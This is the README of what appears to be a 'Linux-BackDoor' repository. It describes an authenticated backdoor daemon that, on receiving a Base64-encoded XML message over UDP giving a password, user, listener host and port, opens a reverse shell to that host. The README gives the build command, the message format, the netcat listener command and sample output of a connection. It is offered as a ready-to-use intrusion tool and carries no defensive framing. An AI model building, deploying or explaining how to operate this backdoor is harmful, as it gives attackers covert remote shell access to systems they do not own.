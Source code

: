 # Linux-BackDoor
This program provides an authenticated backdoor.

Operates under the x86/64 ArmV4l instruction set

To use, build and then execute.

The daemon will bind on the port that you set arbitrarily.

Listen to LPORT set arbitrarily with nc -nvlp.

Encode Protocol Message in Base64 using UDP Protocol and send it. If it binds correctly, a reply will 

be returned.


# How to Build
        make

# Protocol

        <DOOR>
                   <PASS>{Pass}</PASS>
                   <USER>{user}</USER>
                   <HOST>{lhost}</HOST>
                   <PORT>{lport}</PORT>
        </DOOR>

# Exece
        
    #  ps   
    
    PID TTY          TIME CMD
    176293 pts/2    00:00:00 door
    176310 pts/2    00:00:00 ps

#  Get Shell
    #nc -nvlp 4444                          
    
    listening on [any] 4444 ...
    connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 47024